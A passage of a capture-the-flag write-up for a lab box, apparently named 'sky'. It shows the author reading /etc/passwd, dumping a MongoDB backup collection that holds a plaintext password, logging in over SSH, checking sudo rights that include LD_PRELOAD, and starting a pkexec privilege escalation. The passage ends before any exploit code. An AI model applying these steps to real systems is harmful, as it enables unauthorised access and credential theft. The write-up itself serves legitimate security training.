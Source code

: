 ```
```
I was also able to read the user flag. 
```
$ wc -c user.txt
33 user.txt
```
# Privilege Escalation 
I looked around the machine and found that there is a mongodb user within ```/etc/passwd```. 
```
mongodb:x:114:65534::/home/mongodb:/usr/sbin/nologin
```
Therefore, all I had to do was run ```mongodb``` in the terminal. When I dropped into the db, I listed the available dbs with ```show dbs```. 
```
show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
```
From the output of ```show dbs```, I checked to see what collections each DB had. The backup db had a collection called ```user``` with credentials for user ```webdeveloper```. 
```
use backup
switched to db backup
show collections
collection
user
db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```
With the credentials, I was able to ssh into the box as user ```webdeveloper```. 
```
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```
The ```sky_backup_utility``` doesnt appear to do anything that is useful for privilege escalation. However, it does appear the box is vulnerable to pkexec priv esc. But, there is a twist because this shell doesnt work well with pkexec since it is non-graphical. Therefore, I had to create two ssh sessions with user ```webdeveloper```. 
